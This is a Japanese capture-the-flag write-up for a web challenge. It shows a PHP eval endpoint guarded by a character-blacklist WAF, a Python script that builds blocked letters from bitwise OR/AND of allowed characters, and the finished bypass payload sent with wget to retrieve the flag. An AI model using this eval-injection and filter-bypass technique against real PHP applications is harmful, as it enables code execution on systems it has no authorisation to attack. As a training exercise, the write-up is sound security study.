 # "The W":Web:15pts
Those Wutang Boys are at it again, hoot'n and holler'n and waking up the kids. I tried to put a stop to them but they are so damn clever. Just the other day I heard them yell "Wutang4Life" and they picked up and ran off with my flag... I tell ya, kids these days have it too easy...  
In Scope: http://web01.ctf313.com/  
Hack the web app only. You have the source code, no need to brute force or spam anything.  
Server and Infrastructure are out of scope and will result in an automatic ban and public shaming for being a 💩.  

# Solution
URLにアクセスするとphpソースが表示される。  
Web Challenge: "The W"  
[site.png](site/site.png)  
オレオレWAFを突破すれば良いようだ。  
WAFを詳しく見てやる。  
```php
function wutang_waf($str){

  for($i=0; $i<=strlen($str)-1; $i++) {

    if ((ord($str[$i])<32) or (ord($str[$i])>126)) {
      header("HTTP/1.1 416 Range Not Satisfiable");
      exit;
    }

  }

  $blklst = ['[A-VX-Za-z]',' ','\t','\r','\n','\'','""','`','\[','\]','\$','\\','\^','~'];
  foreach ($blklst as $blkitem) {
    if (preg_match('/' . $blkitem . '/m', $str)) {
      header("HTTP/1.1 403 Forbidden");
      exit;
    }
  }
}
```
`0123456789W!"#%&()*+,-./:;<=>?@_{|}`が通るようだ。  
`""`はブロックされるが、`"W"`のように文字を挟めばバイパスできる。  
ある程度の文字と`&`と`|`と`.`があるので、phpfuckの要領で任意の文字を構成できそうだ。  
以下を見ると、シェルをとるのではなく`Wutang4Life`をechoすれば良いようだ(バッファを見ている)。  
```php
if(!isset($_GET['yell'])) {
  show_source(__FILE__);
} else {
  $str = $_GET['yell'];
  wutang_waf($str);
  ob_start();
  $res = eval("echo " . $str . ";");
  $out = ob_get_contents();
  ob_end_clean();
  if ($out === "Wutang4Life") {
      echo $flag;
  } else {
    echo htmlspecialchars($out, ENT_QUOTES);
  }
}
```
`Wutang4Life`になる文字を組み立てればよい。  
以下のoreorephpf.pyを用いて必要な文字を抽出する。  
```python:oreorephpf.py
import sys

chars = '0123456789W!"#%&()*+,-./:;<=>?@_{|}'
new_chars = ""

if len(sys.argv) != 1:
    chars += sys.argv[1]


for i in chars:
    for j in chars:
        #And
        c = chr(ord(i) & ord(j))
        if (not c in chars) and (not c in new_chars) and (c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"):
            print("(\"{}\"%26\"{}\"):{}".format(i, j, c))
            new_chars += c
        #Or
        c = chr(ord(i) | ord(j))
        if (not c in chars) and (not c in new_chars) and (c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"):
            print("(\"{}\"%7C\"{}\"):{}".format(i, j, c))
            new_chars += c

print(new_chars)
```
実行する。  
```bash
$ python oreorephpf.py | grep :u
("5"%7C"@"):u
$ python oreorephpf.py | grep :t
("4"%7C"@"):t
$ python oreorephpf.py | grep :a
("!"%7C"@"):a
$ python oreorephpf.py | grep :n
("."%7C"@"):n
$ python oreorephpf.py | grep :g
$ python oreorephpf.py | grep :L
$ python oreorephpf.py | grep :i
(")"%7C"@"):i
$ python oreorephpf.py | grep :f
("&"%7C"@"):f
$ python oreorephpf.py | grep :e
("%"%7C"@"):e
$ python oreorephpf.py | grep -v :
wpqrstuvxySTUabcefhijklmnoz
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :g
("!"%7C"f"):g
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :L
("_"%26"l"):L
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :l
$ python oreorephpf.py | grep :l
(","%7C"@"):l
```
よってWAFを突破する文字列は以下のようになる。  
`&`を`%26`に置き換える必要がある。  
`("W").("5"%7C"@").("4"%7C"@").("!"%7C"@").("."%7C"@").("!"%7C("%26"%7C"@")).("4").("_"%26(","%7C"@")).(")"%7C"@").("%26"%7C"@").("%"%7C"@")`  
リクエストを投げる。  
```bash
$ wget -q -O - 'http://web01.ctf313.com/?yell=("W").("5"%7C"@").("4"%7C"@").("!"%7C"@").("."%7C"@").("!"%7C("%26"%7C"@")).("4").("_"%26(","%7C"@")).(")"%7C"@").("%26"%7C"@").("%"%7C"@")'
flag{Wu7an9-83-Wi23-wI7h-73H-8I72}
```
flagが得られた。  

## flag{Wu7an9-83-Wi23-wI7h-73H-8I72}